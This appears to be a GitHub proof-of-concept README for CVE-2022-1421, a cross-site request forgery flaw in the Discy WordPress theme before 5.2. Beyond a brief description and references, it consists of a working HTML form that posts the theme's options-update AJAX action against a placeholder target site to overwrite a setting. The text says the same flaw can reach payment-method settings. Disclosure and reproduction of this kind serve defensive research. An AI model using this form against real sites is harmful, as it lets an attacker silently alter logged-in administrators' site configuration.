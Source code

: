 # CVE-2022-1421
A Proof-Of-Concept for CVE-2022-1421
## Discy < 5.2 - Settings Update via CSRF
Discy < 5.2 lacks CSRF checks in some AJAX actions, allowing an attacker to make a logged in admin change arbitrary plugin's settings including payment methods via a CSRF attack.

# Affected Theme
[Discy](https://themeforest.net/item/discy-social-questions-and-answers-wordpress-theme/19281265) < 5.2

# POC
```
<html>
  <body>
    <form action="https://target.com/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="discy_update_options">
      <input type="hidden" name="data" value="discy_options[footer_copyright]=You%20are%20ultra-PWNED">
      <input type="submit" value="Submit request">
    </form>
  </body>
</html> 
```

# References
https://wpscan.com/vulnerability/a7a24e8e-9056-4967-bcad-b96cc0c5b249

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1421
